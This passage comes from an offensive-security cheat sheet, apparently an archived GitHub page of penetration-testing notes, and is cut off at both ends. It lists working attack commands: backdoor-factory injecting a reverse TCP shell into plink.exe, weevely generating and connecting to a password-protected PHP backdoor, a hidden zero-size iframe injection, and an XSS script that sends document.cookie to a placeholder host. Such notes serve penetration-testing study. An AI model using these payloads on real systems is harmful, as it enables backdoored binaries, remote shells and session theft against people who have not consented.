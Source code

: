     *   Swapping Out the Shellcode

    *   Injecting a Backdoor Shell into Plink.exe  
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip -P 4444 -s reverse_shell_tcp

*   ## [](#web-attacks)Web Attacks

    *   Web Shag Web Application Vulnerability Assessment Platform  
        webshag-gui

    *   Web Shells  
        [_http://tools.kali.org/maintaining-access/webshells_](http://web.archive.org/web/20171113221652/http://tools.kali.org/maintaining-access/webshells)  
        `ls -l /usr/share/webshells/`

    *   Generate a PHP backdoor (generate) protected with the given password (s3cr3t)  
        weevely generate s3cr3t  
        weevely http://$ip/weevely.php s3cr3t

    *   Java Signed Applet Attack

    *   HTTP / HTTPS Webserver Enumeration

        *   OWASP Dirbuster

        *   nikto -h $ip

    *   Essential Iceweasel Add-ons  
        Cookies Manager [https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/](http://web.archive.org/web/20171113221652/https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/)  
        Tamper Data  
        [https://addons.mozilla.org/en-US/firefox/addon/tamper-data/](http://web.archive.org/web/20171113221652/https://addons.mozilla.org/en-US/firefox/addon/tamper-data/)

    *   Cross Site Scripting (XSS)  
        significant impacts, such as cookie stealing and authentication bypass, redirecting the victim’s browser to a malicious HTML page, and more

    *   Browser Redirection and IFRAME Injection

        <div class="highlight highlight-text-html-basic">

        <pre><<span class="pl-ent">iframe</span> <span class="pl-e">SRC</span>=<span class="pl-s"><span class="pl-pds">"</span>http://$ip/report<span class="pl-pds">"</span></span> <span class="pl-e">height</span> = <span class="pl-s"><span class="pl-pds">"</span>0<span class="pl-pds">"</span></span> <span class="pl-e">width</span>=<span class="pl-s"><span class="pl-pds">"</span>0<span class="pl-pds">"</span></span>></<span class="pl-ent">iframe</span>></pre>

        </div>

    *   Stealing Cookies and Session Information

        <div class="highlight highlight-source-js">

        <pre><span class="pl-k"><</span>javascript<span class="pl-k">></span>  
        <span class="pl-k">new</span> <span class="pl-en">image</span>().<span class="pl-smi">src</span><span class="pl-k">=</span><span class="pl-s"><span class="pl-pds">"</span>http://$ip/bogus.php?output=<span class="pl-pds">"</span></span><span class="pl-k">+</span><span class="pl-c1">document</span>.<span class="pl-c1">cookie</span>;  
        <span class="pl-k"><</span><span class="pl-k">/</span>script<span class="pl-k">></span></pre>

